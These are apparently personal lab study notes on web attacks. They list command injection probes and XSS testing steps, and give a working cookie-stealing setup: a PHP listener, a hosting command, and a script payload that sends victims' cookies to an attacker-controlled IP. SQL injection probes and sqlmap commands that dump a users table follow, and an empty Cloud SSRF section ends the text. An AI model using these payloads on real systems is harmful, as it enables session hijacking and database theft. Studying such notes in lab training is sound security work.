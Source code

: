 # Web stuff Notes

So this is going to be about stuff put together Command Injection, Cross-Site Scripting, SQL injection, and Cloud SSRF and IMDS attack. 
Just grouping these because man it was kinda short.

## Command Injection

Identify the pages associated with the following functions:

- Feedback Submission
- Feedback Review
- Directory Services
- System Connectivity Checked
- Website Search Function
- Website Administrative Access Page

simple system input for a connectivity test page

- test with '-h' to see if you get help page info
    - '127.0.0.1 -h' or just '-h'
- try with '; ls'
    - '; ls'
- other things to try
    - '|| ls' or '&& ls'

## XSS

### Reflected XSS
if input is reflected on the browser very easy to test with this:
- <hr>

make sure to view source page where your input is relected to identify injection points and possible filtering

### Stored XSS

if you have an injection that stays static on a page you can inject here and it will be 'stored'

### Exploiting XSS

steps we will do
- open a cookie catcher web process to catch the connection from the victim user
- craft malicious URL
- submit the malicious URL to victim

listner code:
```
<html>
<?php
file_put_contents("cookies.log", json_encode(array(
    "GET"=>$_GET,
    "POST"=>$_POST,
    "headers"=>getallheaders()))."\n",
    FILE_APPEND);
?>
</html>
```

host it
- php -S 0.0.0.0:2222

The malicious payload to inject
```
<script>document.location='http://10.10.75.1:2222/?'+document.cookie;</script>
```

now just watch the cookie catcher and if the xss works it will trigger, using these cookies one can impersonate those users

## SQL Injection

testing for sqlinjection

injecting a search term with: 
- admin'

continue with
- ' or '1'='1

### With sqlmap

remember two rules:

- Always give Sqlmap a valid URL that does not trigger an error
- Always type the URL with quotation marks at the beginning and the end

example usage:

```
sqlmap -u "http://www.rookaviary.com/email_search.php?search=admin"
sqlmap -u "http://www.rookaviary.com/email_search.php?search=admin" --dbs
sqlmap -u "http://www.rookaviary.com/email_search.php?search=admin" -D web_app --tables
sqlmap -u "http://www.rookaviary.com/email_search.php?search=admin" -D web_app -T users --dump
```

## Cloud SSRF and IMDS attack






